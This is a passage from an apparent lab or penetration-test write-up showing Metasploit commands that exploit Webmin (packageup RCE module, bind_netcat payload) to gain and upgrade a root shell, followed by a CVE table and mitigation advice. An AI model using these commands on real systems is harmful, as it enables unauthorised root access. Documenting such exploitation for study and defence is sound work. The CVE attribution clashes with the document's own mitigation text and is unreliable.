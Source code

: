 ```python
> set lport 4442
```

enabled SSL.

```python
msf6 exploit(linux/http/webmin_packageup_rce) > set SSL true
```

It’s important to use this specific payload, as the others caused errors when attempting to upgrade the shell.

```python
msf6 exploit(linux/http/webmin_packageup_rce) > set payload cmd/unix/bind_netcat
```

![[Pasted image 20250513135727.png]]

# Remote Code Execution (RCE) in Webmin - CVE-2019-15107

We successfully received a root shell

![[Pasted image 20250512192320.png]]

# Vulnerability

| CVE-XXXX-XXXXX | Name of vulnerability  | level         | Link                                                                         |
| -------------- | ---------------------- | ------------- | ---------------------------------------------------------------------------- |
| CVE-2019-15107 | Webmin Packageup (RCE) | ==10.0/HIGH== | [[[[NVD - cve-2019-15107](https://nvd.nist.gov/vuln/detail/cve-2019-15107)]] |
|                |                        |               |                                                                              |

# mitigation

For CVE-2019-15107, the mitigation involves the following steps:

```python
Upgrade: Immediately upgrade Webmin to lates version, which patches the vulnerable `password_change.cgi` module.

```

```python
Access Restriction: Limit access to Webmin to trusted IP addresses only, preferably localhost, by editing `miniserv.conf`.
```

# We upgraded to a bash shell

![[Pasted image 20250512192545.png]]
